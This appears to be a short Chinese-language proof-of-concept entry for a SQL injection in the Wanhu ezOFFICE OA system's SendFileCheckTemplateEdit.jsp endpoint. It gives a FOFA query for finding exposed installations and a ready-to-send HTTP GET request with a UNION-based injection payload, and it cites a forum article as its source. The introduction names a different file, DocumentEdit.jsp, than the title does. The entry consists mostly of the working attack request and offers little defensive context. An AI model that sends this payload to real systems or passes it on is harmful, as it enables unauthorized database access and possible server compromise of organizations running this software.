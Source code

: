 # 万户ezOFFICE系统接口SendFileCheckTemplateEdit.jsp存在SQL注入漏洞

万户OA DocumentEdit.jsp存在前台SQL注入漏洞，攻击者利用此漏洞获取数据库权限，深入利用可获取服务器权限。

## fofa

```javascript
app="万户网络-ezOFFICE"
```

## poc

```bat
GET /defaultroot/public/iWebOfficeSign/Template/SendFileCheckTemplateEdit.jsp?RecordID=1%27%20UNION%20ALL%20SELECT%20sys.fn_sqlvarbasetostr(HashBytes(%27MD5%27,%27admin%27)),NULL,NULL,NULL,NULL,NULL-- HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Connection: close
```

![图片.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409241012161.png)



## 漏洞来源

- https://forum.butian.net/article/600